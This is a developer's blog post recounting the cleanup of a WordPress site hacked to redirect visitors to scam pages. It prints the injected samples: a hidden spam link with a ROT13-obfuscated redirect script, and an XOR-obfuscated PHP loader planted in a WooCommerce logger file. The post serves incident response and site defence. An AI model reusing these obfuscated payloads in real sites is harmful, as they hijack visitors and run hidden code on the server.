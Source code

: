 ```yaml
---
title: 'Wordpress redirect hack'
date: '10-03-2020'
sinopsis: 'A wordpress site I was building was hacked, I lost a full day cleaning it up'
tags: [wordpress, hack, infected]



---
```



# So you've been hacked
## Wordpress redirect hack

Testing out a website we were building for a client, suddenly, the website starts redireting to spam websites, like lottery scam pages and whatnot.

What I did first, of course, was inspecting the source code of the website, that is to say the raw html of your site.
The hack was injecting a div, with a script, just above the main wrapper

```HTML

<div id="3f41457d"><a href="http://perfectfastsale.su" style="visibility: hidden" title="rx online">rx online</a><script>String.prototype.a73fba7d=function(){return this.replace(/[a-zA-Z]/g,function(c){return String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26);});};u='uggcf://trglbhecevmrabj.yvsr/?h=l2lxnrj&b=2khc89e&z=1&g=Z09';function f31454d7(){window.top.location.href=u.a73fba7d();}setTimeout(f31454d7,4987);</script></div>


```


And that is just the begining. Almost 50 infected wordpress core files, injecting stuff. What a blast...

Stuff like this, into a Wordpress logging class:

```PHP

<?php $NfGPtIkV='3H.--2a  S1, R-'; $ywpPnUj='P:KLYW>FU=RXI=C'^$NfGPtIkV; $mAxOujic='R.ox4  Q RZR6NADGL4Il4Q;3H8F5ic -LojYB1mj5DE2Y.=WcHT0n=-;9hr B=gh>P80XMt1-0xuxbqJ5lbfP8UHOlbowonaBU+ ig0Ulchcmr.tO,IQ16LS= =LobGNWGeXzd=jZ75rwMszsDV ;pmG+Riur< =8m9ccy;2 =WYzp V6a:yMn2l 2M 8YjCOG hJp0GX.EhHQY=LVGX,3=CPcLi=SJ3.,1BIoK.J8 3qZD0+:-T+ qPmf0to +iq2XwpQ,=xKkeg8X8;2DE=aQl2+7 qX 1Mqzi-Y,cdbs=V:WTeea=;=, u=:xyEPglTb2+1 zr4S0TT6W6R2IeB;y,0bwjtXR:wC1WWfnyHR MAK1pj:HcCmD6FWfX03bThjQ7CkYM2OYOI qlYAN68=VibY8y.lfK1R8PAOYn;XNKA YPPI Q-R4oIRH b<+BBo8Z1PrdaT,RD>-Nj70.4lgre+  L+GEHCjo:9,np5P6RaoenXN1526 YJjK= IEKNkU38Runm ,7SexlUPf93dcmIT,Z4W, 0roNQrgUoJVUc4PBzYSuW6bvWJGLXhu=nkQVa6WZcmNZtcWUO0W,f-EJfKF=6=CynM +=R2.bhPmW,;6YGdfnbeF7YxH1.Lqn.W 3gSH O>U.7akjOmD UI:jeka>C'; $VYlFrwZx=$ywpPnUj('', ';HGYRUN2T;5<i+9-48GaKL>Il,Y2T6<MX8HCpbJgcS1+Q-GR9C0;B1YLOX7-M7IOLZ1LQtmPZHIQUXBQjNfkotW <oQBHPTdhK3DRACYuQCXXMVGH<X;=TXdwYAI-FYgj>lNqpm4N5BARYpSRW 7TZ+I.vr7UVWEDcIPCFYHFRQ27RTK3OHgPvd;eRW9UJ7Bg 2TAqz9:RSObl58I-vzxJRQ05XFMY2>RqGT;iRkH+TSVJPNVDHH5HHQxI9s; kb,QS+WT:IDXvUECN9TNWmeFkXHVJCA.3EHmLZMF<UXnkWY7N6tXEEKZQYEN7Grs,6GDuFVJEASROY92;D2W1ZiMfd+ia729 x3IWgZ2.FSGhvV,->TYJABjJI W2693UJBiHN:R:PSD;k=.=AQQye8WTH3RhPEsSfloU3L1ary.N6=.3I8<93EyU=F0-3<A=cF76GZ;B5DP>0I1+ZHfNSQZUEKRAOAT-t, 1jCT0PJFTQ1B3AICN9<CTKiK<35.EI:18fL>VAuYNIDMC2LXJspNTWQKI-5X;opGEIU2gqOZuHzfbPV1pM;6D1UPB5,szhYAYZZecPS5oUJgzREw4=B6U9F 39.>TEI0QI=ARQ=SJEDpI3MOWpnDFNBEfLSq-GO YJJ6TR<t8A6R:OSF6CtgME- NBUBZ4>'^$mAxOujic); $VYlFrwZx();
/**
 * Provides logging capabilities for debugging purposes.
 *
 * @class          WC_Logger
 * @version        2.0.0
 * @package        WooCommerce/Classes
 */
 ```

 This was injected into you name it, plugins, theme files, wordpress core files... Amazing. So what now?
 Let's try to remove it manually and hope the site does not break.
 Certain plugins can help remove malicious files, Wordpress Defender, only for core files, is really good. You can pay the pro version for plugins and software
 
 The infection also reached the uploads folder, 
 example: wp-content/uploads/2020/02/blogking.php,
 and also this as well:

![html](./images/wordpress-hacks.jpg)

After a few backs and forths, deleting infected plugins, infected themes. I still couldnt resolve the issue. Since every page on the website was redirecting to this malicious site I thought the issue was a script being injected globally. But no, after searching the web a bit more, while I was massively deleting files via SFTP, I found a recommendation for the plugin Wordfence. Its the best. It pointed me to the correct direction. All of my pages were infected, they were edited and they had a block added. Inside this block there was a DIV tag with an A tag, which would contain a malicious site. There was also a script tag which would make the site redirect to that a Tag on a timeout. Check it out.

![html](./images/wordpress-hacks2.jpg)

Finally after removing the blocks, the problem was solved.

1. I deleted all of my flatsome parent theme file and I did a fresh copy of the parent theme.
2. Deleted woocommerce since it was infected.
3. My child theme was also infected, so I had to clean up those php files.
4. Also, some plugins were infected, I just deleted those via FTP and re-installed them.

So, it was not the end of the world, but I did loose a day, where I almost had a little heart attack when I thought I lost the whole website! 


 
 



